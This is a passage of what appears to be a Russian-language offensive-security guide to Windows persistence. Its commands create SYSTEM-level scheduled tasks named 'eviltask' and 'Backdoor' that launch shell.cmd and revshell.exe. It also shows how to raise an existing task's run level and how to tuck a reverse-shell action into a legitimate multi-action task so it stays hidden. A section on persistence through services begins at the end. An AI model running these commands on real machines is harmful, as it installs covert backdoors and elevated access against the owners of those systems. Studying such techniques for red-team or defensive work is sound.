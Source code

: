     schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"

    $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Windows\revshell.exe"
    $T = New-ScheduledTaskTrigger -Daily -At 9am
    # OR
    $T = New-ScheduledTaskTrigger -Daily -At "9/30/2020 11:05:00 AM"
    $P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
    $S = New-ScheduledTaskSettingsSet
    $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
    Register-ScheduledTask "Backdoor" -InputObject $D

    schtasks /query /tn "EXISTING_TASK" /xml > out.xml
    # now modify the <Principals> section in xml file with <RunLevel>HighestAvailable</RunLevel>
    # now delete the orginal task and replace it with modified version
    schtasks /delete /tn "EXISTING_TASK" /f
    schtasks /create /tn "EXISTING_TASK" /xml out.xml

### Multi-Action Schedule task persistence
Scheduled tasks могут быть изменены для выполнения более чем одного действия. 
Это позволяет нам изменять уже существующую запланированную задачу таким образом, чтобы наряду с нашей вредоносной задачей она также выполняла запланированную законную задачу, что обеспечивает большую скрытность. 
Для задач с несколькими действиями в разделе Задача для выполнения будет отображаться несколько действий, если они указаны с помощью `schtasks.exe`

Чтобы настроить multi-action scheduled task, сначала экспортируйте scheduled task в формате XML:

    schtasks /query /tn “CHANGEME” /xml > task.xml

    Edit task.xml, adding an <Exec> stanza within <Actions>:

    <Exec>
        <Command>C:\windows\revshell.exe</Command>
        <Command>C:\Program Files\Mozilla Firefox\updater.exe</Command>
    </Exec>

    Delete the old task and install the modified task:

    schtasks /delete /tn “CHANGEME” /f
    schtasks /create /tn “CHANGEME” /xml task.xml

## 8. Using Services
Windows services предлагают отличный способ обеспечить persistence, поскольку их можно настроить на запуск в фоновом режиме при каждом запуске жертвы.
Служба - это, по сути, исполняемый файл, который запускается в фоновом режиме. 
При настройке службы вы определяете, какой исполняемый файл будет использоваться, и выбираете, будет ли служба запускаться автоматически при запуске компьютера или ее следует запускать вручную.
